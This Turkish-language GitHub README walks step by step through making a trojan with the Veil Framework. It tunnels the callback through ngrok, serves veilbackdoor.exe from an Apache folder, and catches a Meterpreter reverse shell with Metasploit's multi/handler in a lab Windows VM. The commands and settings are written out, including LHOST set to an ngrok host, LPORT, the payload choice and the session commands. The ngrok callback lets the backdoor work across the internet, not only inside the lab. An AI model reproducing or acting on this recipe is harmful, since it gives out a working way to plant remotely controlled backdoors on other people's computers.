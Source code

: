 # Veil-Ngrok-Calistirma
Veil Framework ile Ngrok Çalıştırarak Trojen Oluşturup Çalıştırmak


Veil Framework Yükleme Referansı: https://github.com/Veil-Framework/Veil


- Ngrok.com adresine giderek üye oldum.
- Site üzerinden “Download for Linux” diyerek sanal Kali makinama ngrok’u indirdim
- 2. Kısımda yazan authentication token’ımı kayderek siteden çıkış yapıyorum.
![ngrok site](https://user-images.githubusercontent.com/67163428/191236942-63485be5-51da-4a83-bdb2-b8a87b25e0c2.png)

- Download klasörü içinde indirdiğim Zip dosyası içinden Ngrok’u çıkardım
- ![ngrok zip çıkarılış](https://user-images.githubusercontent.com/67163428/191237212-ef13070b-bab6-49c3-ac54-4f09fbcaee61.png)

- Terminal ekranını açarak Download klasörünün içine gidiyorum, ls diyerek dosyaları kontrol ediyorum ve “ngrok” dosyasını görüyorum.
- Kaydetmiş olduğum authentication tokenı ./ngrok yaparak yapıştırıp tokenın dosyaya yazılmasını sağlıyorum.
![ngrok token kaydetme](https://user-images.githubusercontent.com/67163428/191237348-f267496a-8a87-4d60-933c-bf556e30e2f4.png)

-./ngrok tcp diyerek tcp 4848 servisini çalıştırıp kullanılmayan bir port ekliyorum.
![ngrok çalıştırma](https://user-images.githubusercontent.com/67163428/191237409-7ee692ce-69ab-41a0-ad84-5e4545198730.png)

- Ngrok çalışmaya başladıktan sonra gelen ekran üzerinde tcp://0.tcp.eu.ngrok.io’a ya 11810 portundan gelen verileri benim makinamın 4848 portuna aktaracağını anlıyoruz.
![ngrok çalışması ](https://user-images.githubusercontent.com/67163428/191237456-aae6c597-4ee8-4485-b5ee-0a6034f5b3f5.png)

- Trojen yaratmak için Veil kullanıyorum.
- Veil dosyasının kurulu olduğu yere giderek, Veil.py dosyasını çalıştırmak için “python3 Veil.py” yazıyorum.
![veil çalıştırma](https://user-images.githubusercontent.com/67163428/191237534-4918ef2e-2da1-4b1e-9fa7-7146eb6a5094.png)

- Çıkan ekranda 2 araç kullanılabilir olduğunu görüyorum ve 1. Aracı kullanıyorum
- ![veil iç 1](https://user-images.githubusercontent.com/67163428/191237598-cb81a1b3-0737-4200-8a10-40b79f3faec8.png)

- “list” diyerek payload listelerini görüyorum.
 ![veil iç 2](https://user-images.githubusercontent.com/67163428/191237642-27d90eda-9e55-4c8c-97bc-3dd5bb2aaf65.png)
 ![veil iç 3](https://user-images.githubusercontent.com/67163428/191237676-251896cd-351d-45bd-ae81-c30235050540.png)

- “use 7” diyerek 7. payloadı seçerek devam ediyorum.
![veil iç 4](https://user-images.githubusercontent.com/67163428/191237688-1102d3b4-fceb-4026-9007-84defebcbfba.png)

-“set LHOST 0.tcp.ngrok.io” yazıyorum. Ngrok üzerinden bize verilen adresi girdim.
- Port olarakta “set LPORT 11810” giriyorum
![veil iç 5](https://user-images.githubusercontent.com/67163428/191237931-9790d9fe-b387-4bc5-b377-15838e8aee39.png)

-“generate” diyerek benim için oluşturmasını istiyorum daha sonra bir isim vererek dosyanın nerede oluştuğunu görebiliyorum.
![veil iç 6](https://user-images.githubusercontent.com/67163428/191237959-0fad0315-d39f-418e-a973-37d49feee0ff.png)

- “/var/lib/veil/output/compiled/veilbackdoor.exe” içerisinde olan dosyamı keserek 
 /var/www/html/backdoors/” klasörünün içine aktarıyorum. (backdoors klasörünü isteğe bağlı oluşturabilirsiniz)



- Apache servisimi çalıştırıyorum.
- Dinlemeyi yapmak için msfconsole içine giriyorum.
![apache ve msfconsole çalıştırma](https://user-images.githubusercontent.com/67163428/191238053-41d8cdc6-b95a-43cb-b25f-8a5b5a4621c4.png)

- “ use exploit/multi/handler” 
“ set payload windows/meterpreter/reverse_tcp” komutlarını giriyorum
![msfconsole iç 1](https://user-images.githubusercontent.com/67163428/191238141-a1f4c3d7-8a82-4bfc-af9c-4a6327dd1986.png)

- “show opitons” içine girerek LHOST VE LPORTA BAKIYORUM.
“set LHOST 0.0.0.0” VE “set LPORT 4848” yazarak düzenleme yapıyorum.
- “exploit -j -z” diyerek dinlemeyi başlatmış oluyorum.
![msfconsole iç 2](https://user-images.githubusercontent.com/67163428/191238171-8f9fe884-0a44-4b34-8abb-5c1f11d337e0.png)



- Oluşturduğum sanal windows makinasını çalıştırıyorum.
- Tarayıcıyı açarak “10.0.2.15/backdors” adresine giderek veilbackdoor.exe dosyasını indiriyorum.
 ![windows indirme](https://user-images.githubusercontent.com/67163428/191238393-81524185-c4fd-44db-bd01-b06b3d3ab8ca.png)

- exe dosyasını açtıktan sonra kali makinamızın terminaline bir sessions düşüyor.
-  ![msfconsole 3](https://user-images.githubusercontent.com/67163428/191238361-c3a3f034-6061-45d7-af9d-f2c47448c033.png)

- “sessions -l” yaparak tüm sessionsları görüyoruz ve bize gerekli olan “sessions -1” diyerek windows makinamızın içine giriyoruz. 
- “sysinfo” yapara makinamızın ele geçirildiğini kanıtlamış oluyoruz.
 ![msfconsole 4](https://user-images.githubusercontent.com/67163428/191238381-4063fce5-c328-4225-99d7-e330c2c7c02b.png)



